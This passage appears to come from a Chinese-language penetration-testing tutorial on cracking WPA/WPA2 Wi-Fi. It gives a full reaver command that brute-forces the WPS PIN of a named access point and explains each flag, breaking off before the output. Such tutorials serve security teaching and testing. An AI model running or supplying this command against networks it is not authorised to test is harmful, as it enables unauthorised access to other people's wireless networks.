 ![破解 WPA 和 WPA2 加密](img/3183OS_04_15.jpg)

1.  输入以下命令并按*Enter*：

```
reaver –i mon0 –c 11 –e Johns –b 20:AA:4B:F2:25:4E –vv --no-nacks

```

以下是前述命令的组成部分：

+   `-i`：这是无线接口

+   `-c`：这是频道号

+   `-e`：这设置了目标接入点

+   `-b`：这设置了目标 MAC 地址

+   `-vv`：这将两次设置详细选项，以增加详细信息并在尝试时显示每个 PIN 号码

+   `--no-nacks`：这可以确保目标接入点的可靠性更高

以下是输出：
